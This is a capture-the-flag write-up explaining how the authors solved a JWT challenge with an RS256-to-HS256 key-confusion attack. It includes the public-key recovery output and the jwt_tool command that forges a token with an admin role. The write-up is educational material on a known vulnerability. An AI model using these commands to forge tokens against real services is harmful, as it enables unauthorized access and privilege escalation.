


The challenge is back on the same site, this time the mentions of `confusing`, `upgrading` and `secrets` are all pointing us to investigate the JWT token.

The JWT token, once analysed with jwt.io shows it's a `RSASHA256` which takes a public and private key.



I remember an attack on JWT's from HackTricks, the [asymmetric to symmetric algorithm confusion](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#change-the-algorithm-rs256-asymmetric-to-hs256-symmetric-cve-2016-5431-cve-2016-10555). Perhaps we could use this to forge a signature then change our role!

Essentially, via changing the JWT algorithm from a pub/priv key based auth to a password auth, the public key is used as the secret, therefore validating the signature from public information.

We have to start with getting the public key, let's recover it with JWT-Key-Recovery.

```bash
$ python3.9 recover.py <jwt-1> <jwt-2>

Recovering public key for algorithm RS256...
Found public RSA key !
n=18395668490321515962087030319752306721215302352329121546271588265329699271878185827633705384944723003501942243273512630731048261573678045465816897505199698932594991022849921367429407953240543762647219245853527843035935582058346410260481189720306522046666115120260221311558521585272748174031980952364058509286838976010428157272444761007973269856583316771877217668791028075516023649740079377123094541694353087709219161934410005183501047896183738255989518508393885465687192370697979955597259147822198971182090756989898071957357113111818112262257364088853589273882806618876708568145123344836554848288619026537386129324017
e=65537
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAkbjFh12wFjB3r5fdXyfB
G5t7KeWFxMIGjSGFDbaQG/QROm4RqXmiC5aNCQlaOVjxXnWUba1Zpi2YeKlzBAgm
NJv3TRZGtuELCOedv3o+QpYhLV3rqNAqVBZlQGzlcA3prtXRA2XIn/6E0AHDirY8
RH0kdawvF0gAUWITe6ijrPXzqR3dmv9r6TaOpBAmkWRhw12yGWgryE05bmKiYe1y
0k2kL1qPb5UISC3GC//9KXmnjMjMJLKG8uL8kIcoSq3zJq/bnC90UVjbJhYHx/Jn
tUwCha073oC7dnbx9np8BVVfAjfuzqaIlI4hDLfCxHod6WtvVArvDpA0bvMpRE13
8QIDAQAB
-----END PUBLIC KEY-----
```

Cool! Let's try use jwt_tool to attack it!

```bash
$ python3 jwt_tool.py <jwt> -X k -pk secedu.pk -I -pc role -pv admin
```

This modifies the existing JWT with a key confusion attack, using the public key in the file `secedu.pk`. It that replaces the `role` portion of the `JWT` with `admin`.

This, **does not work**, and we got stuck for a long time... Until!

Our goated teammate figured out that the **newline** at the end of the public key (which should be filtered by jwt_tool imo), was being picked up. Here was the attack chain.



**why**

Removing the newline (*sigh*), it works perfectly...

```bash
$ python3 jwt_tool.py <jwt> -X k -pk secedu.pk -I -pc role -pv admin

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi      

Original JWT: 

File loaded: secedu.pk
jwttool_6971986ee1ad099cf593ea5dc590849a - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] ...
```

Flag: `SECEDU{consider_me_confused}`